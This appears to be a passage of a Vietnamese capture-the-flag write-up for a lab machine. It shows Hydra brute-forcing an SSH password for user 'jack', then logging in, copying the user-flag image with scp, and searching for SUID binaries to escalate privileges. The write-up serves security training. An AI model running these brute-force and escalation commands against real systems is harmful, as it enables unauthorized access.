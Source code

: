 ```python
┌──(neo㉿kali)-[~]
└─$ hydra -l jack -P list.txt ssh://10.10.178.76:80
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-06 09:12:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.178.76:80/
[80][ssh] host: 10.10.178.76   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-06 09:13:01
                                           
┌──(neo㉿kali)-[~]
└─$ 
```

Login ssh

```python
┌──(neo㉿kali)-[~]
└─$ ssh jack@10.10.178.76 -p80
jack@10.10.178.76's password: 
jack@jack-of-all-trades:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth),1001(dev)
jack@jack-of-all-trades:~$ ls
user.jpg
jack@jack-of-all-trades:~$ 
```

Tải file ảnh này về và tôi có *user flag*

```python
┌──(neo㉿kali)-[~]
└─$ scp -P 80 jack@10.10.178.76:/home/jack/user.jpg /home/neo
jack@10.10.178.76's password: 
user.jpg                                                   100%  286KB  17.1KB/s   00:16 ┌──(neo㉿kali)-[~]
└─$ scp -P 80 jack@10.10.178.76:/home/jack/user.jpg /home/neo
jack@10.10.178.76's password: 
user.jpg                                                   100%  286KB  17.1KB/s   00:16 
```

## Privilege escalation

`sudo -l` cần có pass của *jack*. Tôi sẽ thử `find`

```python
jack@jack-of-all-trades:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
```